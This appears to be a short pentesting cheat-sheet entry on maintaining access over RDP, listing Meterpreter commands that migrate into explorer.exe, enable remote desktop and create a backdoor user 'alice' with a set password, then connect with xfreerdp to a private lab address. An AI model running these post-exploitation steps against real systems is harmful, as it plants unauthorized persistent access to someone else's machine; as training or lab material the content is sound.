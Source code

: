 # Persistance

## Persistance

## Maintaining Access: RDP

#### Metasploit

```bash
getuid
ps -S explorer.exe
migrate 7878
run getgui -e -u alice -p hack_123321
```

**Access the GUI using xfreerdp utility.**

```bash
xfreerdp /u:alice /p:hack_123321 /v:10.0.23.139
```
